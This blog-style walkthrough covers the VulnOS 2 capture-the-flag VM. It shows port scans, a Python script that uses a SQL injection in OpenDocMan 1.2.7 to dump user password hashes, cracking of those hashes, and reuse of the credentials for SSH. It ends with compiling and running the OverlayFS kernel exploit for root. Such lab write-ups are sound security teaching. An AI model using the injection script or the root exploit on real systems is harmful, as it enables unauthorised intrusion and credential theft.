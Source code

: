 ```yaml
---
layout: single
title: VulnOS 2 CTF Walkthrough
date: 2017-08-18
categories:
  - security
  - ctf
  - walkthrough
tags:
  - vulnos
  - vulnhub
---
```

## Service Discovery
A full port scan using `masscan` (`masscan -p 0-65535 10.2.0.104 --rate=500`) revealed three open ports: 22, 80 and 6667. Nmap subsequently fingerprinted  the services on these ports to be OpenSSH, Apache and ngircd:

```shell_session
root@kali:~# nmap -sS -sV -sC -p 6667,22,80 10.2.0.104
***
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|   256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
|_  256 71:bc:6b:7b:56:02:a4:8e:ce:1c:8e:a6:1e:3a:37:94 (EdDSA)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: VulnOSv2
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC)
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel
***
```

Connecting to the IRC server confirmed the version number of ngircd in use [v21], which I was unable to find any known vulnerabilities for.

```
22:51 -!- Irssi: Looking up 10.2.0.104
22:51 -!- Irssi: Connecting to 10.2.0.104 [10.2.0.104] port 6667
22:51 -!- Irssi: Connection to 10.2.0.104 established
22:51 -!- Welcome to the Internet Relay Network rastating!~rastating@10.2.0.1
22:51 -!- Your host is irc.example.net, running version ngircd-21 (i686/pc/linux-gnu)
```

## Drupal
The index of the web server contained a landing page which pointed towards the `/jabc/` directory. A look at the markup in this directory quickly made it clear that it is a Drupal installation.

The first thing I checked out was the module directories (`/jabc/modules` and `/jabc/sites/all/modules`) and cross referenced them with the exploits listed on Exploit-DB for Drupal, but there were none that matched up.

Next, I used Burp's repeater to iterate pages 0-50 (`/jabc/?q=node/{{PAGE_ID}}`) to see if there was any interesting unlisted pages. Doing this led me to page 7 [`/jabc/?q=node/7`], which had the following content:

```xml
<p><span style="color:#000000">For security reasons, this section is hidden.</span></p>
<p><span style="color:#000000">For a detailed view and documentation of our products, please visit our documentation platform at /jabcd0cs/ on the server. Just login with guest/guest</span></p>
```

Navigating to `/jabcd0cs/` revealed an OpenDocMan installation.

## OpenDocMan
The OpenDocMan installation found in `/jabcd0cs/` was tagged as being version 1.2.7 which has known vulnerabilities (https://www.exploit-db.com/exploits/32075/), but first, I logged in as the `guest` account and attempted to upload a PHP file, but the MIME type wasn't allowed and seemingly couldn't be spoofed.

A quick test of the SQL injection vulnerability in `ajax_udf.php` proves that it is working, and adds the output into the combo box:

![OpenDocMan SQL Injection](/assets/images/vulnos-2-ctf-walkthrough/opendocman_sqli.png)

Rather than use this to traverse the database schema, I took a look at the [GitHub Project](https://github.com/opendocman/opendocman/) and found the database schema (https://gist.github.com/rastating/3153cec9de24fa995a069abe99e75c1d)

I then wrote a small Python script to dump the usernames and password hashes from the `odm_user` table using the SQL injection:

```python
import requests
import re

p = re.compile('value=999\s>(.+?)<\/option')
r = requests.get("http://10.2.0.104/jabcd0cs/ajax_udf.php", params={ 'q': "1", "add_value": "odm_user UNION SELECT 999, concat(username, 0x3a, password), 3,4,5,6,7,8,9 from odm_user" })

for m in re.finditer(p, r.text):
  print m.group(1)
```

When running the script, it found two accounts:

```
webmin:b78aae356709f8c31118ea613980954b
guest:084e0343a0486ff05530df6c705c8bb4
```

The `guest` account I already had access to, so presumably the `webmin` account was an administrator. I ran the hash through md5decrypt.org, which indicated the plain text was `webmin1980`.

I was able to now login to OpenDocMan as an administrator, by using `webmin:webmin1980`, and added some new mime types (`application/x-php` and `text/x-php`) to allow me to upload a PHP script, but although I was able to upload a PHP script, it was never being interpreted, and instead was being sent back as plain text.

Next, I tried the same credentials on the Drupal installation and found that they work there too, but there was seemingly no way to upload any PHP scripts in the Drupal admin area.

## Webmin Shell
As the credentials I had found in OpenDocMan were shared with Drupal, I decided to try using them to SSH into the VM, and was successful in doing so; giving me access to a low privilege shell.

Firstly, I checked to see if there were any sudo privileges for this account, but as I suspected, `webmin` wasn't in the sudoers file:

```shell_session
$ sudo -l
[sudo] password for webmin:
Sorry, user webmin may not run sudo on VulnOSv2.
```

The only thing in the home directory was a file named `post.tar.gz`, which contained a copy of Hydra; so nothing of use.

As there was password re-use across multiple applications, I took a look in the configuration file for OpenDocMan [`/var/www/html/jabcd0cs/config.php`], to see how it was connecting to MySQL:

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for [OpenDocMan */
define('DB_NAME', 'jabcd0cs');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASS', 'toor');
```

In the hope the system `root` user is sharing the same password as the MySQL one, I tried to `su` with the password `toor`, but the switch failed.

Next, I took a look at the kernel version, and identified that the VM was vulnerable to the OverlayFS exploit (https://www.exploit-db.com/exploits/37292/).

I grabbed the exploit, compiled it, ran it, and proceeded to get the flag:

```shell_session
webmin@VulnOSv2:~$ gcc overlayfs.c -o ofs
webmin@VulnOSv2:~$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# cd /root
# ls
flag.txt
# cat flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
#
```
